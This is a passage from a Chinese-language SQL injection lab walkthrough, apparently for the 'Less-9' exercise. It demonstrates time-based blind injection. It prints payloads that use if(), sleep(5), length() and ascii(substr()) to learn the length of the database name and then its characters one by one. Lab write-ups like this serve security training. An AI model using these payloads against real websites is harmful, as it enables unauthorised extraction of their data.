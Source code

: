 由例子发现时间注入可行



+ 注入如下语句判断数据库名长度

~~~ shell
?id=1'and if(length((select database()))>9,sleep(5),1)--+
判断数据库名长度
~~~

![Less-9_3](./img/Less-9_3.png)

如果数据库名的长度大于9则执行<code>sleep(5)</code>页面延迟五秒，如果数据库名长度不大于9则执行1且页面不延迟



+ 注入如下语句逐一判断数据库字符

~~~ shell
?id=1'and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+
~~~
